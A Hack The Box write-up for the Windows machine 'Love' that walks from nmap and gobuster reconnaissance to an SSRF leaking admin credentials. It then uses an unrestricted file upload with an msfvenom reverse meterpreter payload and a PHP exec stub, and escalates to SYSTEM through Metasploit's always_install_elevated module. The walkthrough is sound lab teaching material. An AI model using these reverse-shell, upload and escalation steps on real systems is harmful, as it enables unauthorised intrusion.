


HTB | Love
1 Introduction
Welcome to this write-up for the Hack the Box machine: Love. Love was an easy rated Windows machine, running a webserver for a voting system and a file scanner located on a staging subdomain.
2 Recon
First thing we should do is to get as much information about the box as possible.
First we'll scan for open ports using nmap, once we know what's running on the machine we can tailor the rest of the reconnaissance to better fit.
2.1 Nmap
Since this is just a challenge there is no reason to go super stealthy. I used the following command to enumerate all open ports, and check which version is running on the port:
$ sudo nmap -sV -p- -oA nmap/version_scan_all_ports 10.129.48.103
# Nmap 7.91 scan initiated Sun Jul 25 20:11:00 2021 as: nmap -sV -p- -oA nmap/version_scan_all_ports 10.129.48.103 Nmap scan report for 10.129.48.103 Host is up (0.035s latency). Not shown: 65517 closed ports PORT STATE SERVICE VERSION 80/tcp open http Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27) 135/tcp open msrpc Microsoft Windows RPC 139/tcp open netbios-ssn Microsoft Windows netbios-ssn 443/tcp open ssl/http Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27) 445/tcp open microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP) 3306/tcp open mysql? 5000/tcp open http Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27) 5040/tcp open unknown 5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) 5986/tcp open ssl/http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) 47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) 49664/tcp open msrpc Microsoft Windows RPC 49665/tcp open msrpc Microsoft Windows RPC 49666/tcp open msrpc Microsoft Windows RPC 49667/tcp open msrpc Microsoft Windows RPC 49668/tcp open msrpc Microsoft Windows RPC 49669/tcp open msrpc Microsoft Windows RPC 49670/tcp open msrpc Microsoft Windows RPC 1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service : SF-Port3306-TCP:V=7.91%I=7%D=7/25%Time=60FDA958%P=x86_64-unknown-linux-gnu SF:%r(NULL,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.87'\x20is\x20not\x20 SF:allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server"); Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . # Nmap done at Sun Jul 25 20:14:21 2021 -- 1 IP address (1 host up) scanned in 201.09 seconds
Looking at the table below, we can deduce that it is a Windows machine running multiple webservers.
| Service | Port | Daemon | Version |
|---|---|---|---|
| http | 80 | Apache httpd | 2.4.46 |
| msrpc | 135 | Microsoft Windows RPC | ?? |
| netbios-ssn | 139 | Microsoft Windows netbios-ssn | ?? |
| ssl/http | 443 | Apache httpd | 2.4.46 |
| microsoft-ds | 445 | Microsoft Windows 7 - 10 microsoft-ds | ?? |
| mysql? | 3306 | ?? | ?? |
| http | 5000 | Apache httpd | 2.4.46 |
| unknown | 5040 | ?? | ?? |
| http | 5985 | Microsoft HTTPAPI httpd | 2.0 |
| ssl/http | 5986 | Microsoft HTTPAPI httpd | 2.0 |
| http | 47001 | Microsoft HTTPAPI httpd | 2.0 |
| msrpc | 49664 | Microsoft Windows RPC | ?? |
| msrpc | 49665 | Microsoft Windows RPC | ?? |
| msrpc | 49666 | Microsoft Windows RPC | ?? |
| msrpc | 49667 | Microsoft Windows RPC | ?? |
| msrpc | 49668 | Microsoft Windows RPC | ?? |
| msrpc | 49669 | Microsoft Windows RPC | ?? |
| msrpc | 49670 | Microsoft Windows RPC | ?? |
We also got the hostname love.htb from the scan results, so let's add that to /etc/hosts file:
$ sudo echo "10.129.48.103 love.htb" >> /etc/hosts
2.2 Web enumeration
Since there are more than one webserver running, there is the possibility that they are mapped to virtual hosts.
So let's start gobuster in virtual host mode and start enumerating.
2.2.1 Virtual host enumeration
For this enumeration I used the subdomains-top1million-20000.txt DNS wordlist from the SecLists repository.
┌──[ c3lphie@c3lphie-laptop:~/hacking/ctf/hackthebox/machines/love ] └─> $ gobuster vhost -u "http://love.htb" -w ~/repositories/SecLists/Discovery/DNS/subdomains-top1million-20000.txt =============================================================== Gobuster v3.1.0 by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart) =============================================================== [+] Url: http://love.htb [+] Method: GET [+] Threads: 10 [+] Wordlist: /home/c3lphie/repositories/SecLists/Discovery/DNS/subdomains-top1million-20000.txt [+] User Agent: gobuster/3.1.0 [+] Timeout: 10s =============================================================== 2021/07/25 21:15:06 Starting gobuster in VHOST enumeration mode =============================================================== Found: staging.love.htb (Status: 200) [Size: 5357] Progress: 18380 / 19967 (92.05%) =============================================================== 2021/07/25 21:16:39 Finished ===============================================================
staging.love.htb sounds like a development server, which might be filled with vulnerabilties.
This gives us the two targets:
http://love.htbhttp://staging.love.htb
Let's start enumerating files and directories with gobuster.
2.2.2 Enumerating http://love.htb
As you can see on the image below, there isn't a lot we can do regarding the homepage of this site.
http://love.htb
Let us start by enumerating the main site using gobuster, and hope that we get something more useful than that login page.
2.2.2.1 Gobuster
┌──[ c3lphie@c3lphie-laptop:~/hacking/ctf/hackthebox/machines/love ] └─> $ gobuster dir -u "http://love.htb" -w ~/repositories/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt -b 403,404 -x php -d 20:55 =============================================================== Gobuster v3.1.0 by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart) =============================================================== [+] Url: http://love.htb [+] Method: GET [+] Threads: 10 [+] Wordlist: /home/c3lphie/repositories/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt [+] Negative Status codes: 403,404 [+] User Agent: gobuster/3.1.0 [+] Extensions: php [+] Timeout: 10s =============================================================== 2021/07/25 20:55:57 Starting gobuster in directory enumeration mode =============================================================== /images (Status: 301) [Size: 330] [--> http://love.htb/images/] /admin (Status: 301) [Size: 329] [--> http://love.htb/admin/] /includes (Status: 301) [Size: 332] [--> http://love.htb/includes/] /login.php (Status: 302) [Size: 0] [--> index.php] /index.php (Status: 200) [Size: 4388] /plugins (Status: 301) [Size: 331] [--> http://love.htb/plugins/] /logout.php (Status: 302) [Size: 0] [--> index.php] /home.php (Status: 302) [Size: 0] [--> index.php] /. (Status: 200) [Size: 4388] /preview.php (Status: 302) [Size: 0] [--> index.php] /examples (Status: 503) [Size: 398] /dist (Status: 301) [Size: 328] [--> http://love.htb/dist/] [ /tcpdf (Status: 301) [Size: 329] [--> http://love.htb/tcpdf/]
Looking at the scan results from gobuster, we can see that there is an admin interface in the /admin/ directory.
But it can only be accessed using matching credentials.
2.2.3 Enumerating http://staging.love.htb
As you can see there isn't a whole lot going on homepage for the staging site.

We can see that there is a Demo page, which links to /beta.php.
There is a user input, but looking at the source code of the page we'll see that nothing happens once submitted.
Just to be sure that we don't miss anything, I'll enumerate this server with gobuster.
2.2.3.1 Gobuster
As can be seen on the results below, there isn't anything of interest except for /beta.php.
So let us take a closer look at that!
┌──[ c3lphie@c3lphie-laptop:~/hacking/ctf/hackthebox/machines/love ] └─> $ gobuster dir -u "http://staging.love.htb" -w ~/repositories/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt -x php -d -b 404,403 -o gobuster/staging.love.htb =============================================================== Gobuster v3.1.0 by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart) =============================================================== [+] Url: http://staging.love.htb [+] Method: GET [+] Threads: 10 [+] Wordlist: /home/c3lphie/repositories/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt [+] Negative Status codes: 403,404 [+] User Agent: gobuster/3.1.0 [+] Extensions: php [+] Timeout: 10s =============================================================== 2021/07/25 21:20:32 Starting gobuster in directory enumeration mode =============================================================== /index.php (Status: 200) [Size: 5357] /beta.php (Status: 200) [Size: 4997] /. (Status: 200) [Size: 5357] /examples (Status: 503) [Size: 406] =============================================================== 2021/07/25 21:50:04 Finished ===============================================================
2.2.3.2 /beta.php
This accepts a url pointing to a specific file somewhere on the internet.
/beta.phpThis could be vulnerable to a Server Side Request Forgery (SSRF) attack.
3 Exploitation
We have done all necessary reconnaissance up to this point. So let us begin attacking this box, by first gaining access to the voting systems admin page.
3.1 Getting admin credentials from ssrf
If we point the site to http://127.0.0.1/index.php, we will see that some of the target website is rendered.
The entire request sent by the form can be seen below.
POST http://staging.love.htb/beta.php HTTP/1.1 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:90.0) Gecko/20100101 Firefox/90.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 Content-Type: application/x-www-form-urlencoded Content-Length: 54 Origin: https://staging.love.htb Connection: keep-alive Referer: https://staging.love.htb/beta.php Upgrade-Insecure-Requests: 1 Sec-Fetch-Dest: document Sec-Fetch-Mode: navigate Sec-Fetch-Site: same-origin Sec-Fetch-User: ?1 Host: staging.love.htb file=http%3A%2F%2F127.0.0.1%2Findex.php&read=Scan+file
Let's us try the webserver running on port 5000, just to see if there is anything interesting.
http://127.0.0.1:5000/index.php
And we got our first set of credentials!
admin:@LoveIsInTheAir!!!!
3.2 Logging into /admin/
Now that we have the username and password for the admin area of the voting system, let's login and start poking around at the different functionalities.
Logging in as admin gives the following interface
One of the sites which peaked my interest was the /candidates.php file in the /admin/ directory.
On this site I poked around found the following three vulnerabilties on this endpoint:
- XSS
- SQL injection
- Insecure File upload
3.2.1 XSS
All of the fields for candidates seem, vulnerable to XSS attacks. It was possible to pop an alert in the description of a candidate.
 However, it didn't seem to be affecting the voters. And since we are already admin, there is not a that we could gain from this.
3.2.2 SQL injection
There was also an error in the implementation of SQL, but I couldn't put it to any use.
The parameter vulnerable to SQL injection was the plaform parameter shown in the POST request below.
POST http://love.htb/admin/candidates_edit.php HTTP/1.1 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:90.0) Gecko/20100101 Firefox/90.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 Content-Type: application/x-www-form-urlencoded Content-Length: 66 Origin: https://love.htb Connection: keep-alive Referer: https://love.htb/admin/candidates.php Cookie: PHPSESSID=62ib5d27nim0fbh9ikd8ujjo60 Upgrade-Insecure-Requests: 1 Sec-Fetch-Dest: document Sec-Fetch-Mode: navigate Sec-Fetch-Site: same-origin Sec-Fetch-User: ?1 Host: love.htb id=18&firstname=test&lastname=test&position=8&platform=%27--&edit=
Since SQL injection isn't my strongest attack, I tested the parameter using SQLmap.
But without success.
3.2.3 File-upload
This brings us to the last vulnerability, which is also the most powerful.
When creating a candidate, it is possible to upload a photo of the candidate. But there isn't any checks on what the filetype actually is, meaning we can upload any file we that we want to. This is the vulnerability we will use to get a shell on the system.
3.3 File-upload on /admin/candidates.php
Because this is a Windows box, I'll be taking the liberty of using the Metasploit framework. I'll do this in two parts, first we'll create a reverse meterpreter shell. And a small php script which will execute our meterpreter shell.
The php script that will execute our meterpreter shell, is rather simple as you can see below.
<?php
exec("shell.exe");
?>
The meterpreter shell is generated using the msfvenom
┌──[ c3lphie@c3lphie-laptop:~/hacking/ctf/hackthebox/machines/love/shells ] └─> $ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.87 LPORT=4444 -f exe > shell.exe 15:37 [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload [-] No arch selected, selecting arch: x86 from the payload No encoder specified, outputting raw payload Payload size: 354 bytes Final size of exe file: 73802 bytes
And a handler setup in msfconsole with options matching the ones in the payload generation.
Now we upload both files, and navigate to the php file. And voila we have a shell!
meterpreter > getuid Server username: LOVE\Phoebe meterpreter >
Let's navigate to the desktop and get the flag!
meterpreter > cd Desktop meterpreter > ls Listing: C:\Users\Phoebe\Desktop ================================ Mode Size Type Last modified Name ---- ---- ---- ------------- ---- 100666/rw-rw-rw- 282 fil 2021-04-13 00:50:47 +0200 desktop.ini 100444/r--r--r-- 34 fil 2021-04-13 12:20:32 +0200 user.txt meterpreter > cat user.txt 39e8████████████████████████████ meterpreter >
4 Priv esc
Now that we have a normal user shell, we should do some enumeration to figure out how we should go about gaining a root shell.
Since this is done through meterpreter, we can use a lot of modules from metasploit.
4.1 Local auto-suggest
This is a very nifty little module, which will suggest local exploits that can be used to elevate privileges.
meterpreter > run post/multi/recon/local_exploit_suggester [*] 10.129.148.112 - Collecting local exploits for x86/windows... [*] 10.129.148.112 - 38 exploit checks are being tried... [+] 10.129.148.112 - exploit/windows/local/always_install_elevated: The target is vulnerable. [+] 10.129.148.112 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable. [+] 10.129.148.112 - exploit/windows/local/bypassuac_fodhelper: The target appears to be vulnerable. [+] 10.129.148.112 - exploit/windows/local/bypassuac_sluihijack: The target appears to be vulnerable. [+] 10.129.148.112 - exploit/windows/local/ikeext_service: The target appears to be vulnerable. [+] 10.129.148.112 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
As you can see the target is vulnerable to the always_install_elevated exploit.
4.2 Always install elevated
Since the autosuggester mentioned this exploit, let's test if it is correct. This is done by running the following commands:
meterpreter > shell
Process 6380 created.
Channel 6 created.
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.
C:\Users\Phoebe\Desktop>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
AlwaysInstallElevated REG_DWORD 0x1
C:\Users\Phoebe\Desktop>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
AlwaysInstallElevated REG_DWORD 0x1
C:\Users\Phoebe\Desktop>
The registrykeys are enabled meaning we are vulnerable, just as the local_exploit_suggester said we were.
Now we can run the exploit module:
meterpreter > run exploit/windows/local/always_install_elevated LHOST=10.10.14.87 [*] Started reverse TCP handler on 10.10.14.87:4444 [*] Uploading the MSI to C:\Users\Phoebe\AppData\Local\Temp\zDLHrfRovO.msi ... [*] Executing MSI... [*] Sending stage (200262 bytes) to 10.129.148.112 [+] Deleted C:\Users\Phoebe\AppData\Local\Temp\zDLHrfRovO.msi [*] Meterpreter session 9 opened (10.10.14.87:4444 -> 10.129.148.112:63063) at 2021-07-26 17:27:24 +0200 [*] Session 9 created in the background.
And a session was created, which means we have root!
Now all we need is to switch to that session, and read the root flag.
meterpreter > getuid Server username: NT AUTHORITY\SYSTEM meterpreter > pwd C:\Windows\System32 meterpreter > cd /Users/Administrator/Desktop meterpreter > ls Listing: C:\Users\Administrator\Desktop ======================================= Mode Size Type Last modified Name ---- ---- ---- ------------- ---- 100666/rw-rw-rw- 282 fil 2021-04-12 23:55:12 +0200 desktop.ini 100444/r--r--r-- 34 fil 2021-04-13 12:20:17 +0200 root.txt meterpreter > cat root.txt 567d████████████████████████████